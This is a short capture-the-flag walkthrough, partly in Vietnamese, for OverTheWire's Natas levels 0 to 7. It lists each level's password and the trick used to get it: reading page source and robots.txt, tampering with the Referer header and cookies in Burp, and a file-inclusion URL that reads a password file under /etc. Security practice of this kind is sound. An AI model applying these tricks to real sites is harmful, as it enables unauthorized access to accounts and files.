 # NATAS WRITE UP
## Natas0
View source 

**user: natas1**

**pass: gtVrDuiDfck831PqWsLEZy5gyDz1clto**
## Natas1
Ctrl + U
**user: natas2**

**pass: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi**
## Natas2
http://natas2.natas.labs.overthewire.org/files/users.txt

**user: natas3**

**pass: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14**
## Natas3
http://natas3.natas.labs.overthewire.org/robots.txt

http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt

**user: natas4**

**pass: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ**
## Natas4
Dùng Burp intercept request để sửa referer thành http://natas5.natas.labs.overthewire.org/

**user: natas5**

**pass: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**
## Natas5
Dùng Burp intercept request để sửa cookie thành loggedin=1

**user: natas6**

**pass: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1**
## Natas6
http://natas6.natas.labs.overthewire.org/includes/secret.inc

Secret: FOEIUWGHFEEUHOFUOIU

**user: natas7**
**pass: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9**
## Natas7
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

**user: natas8**
**pass: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe**
## Natas8

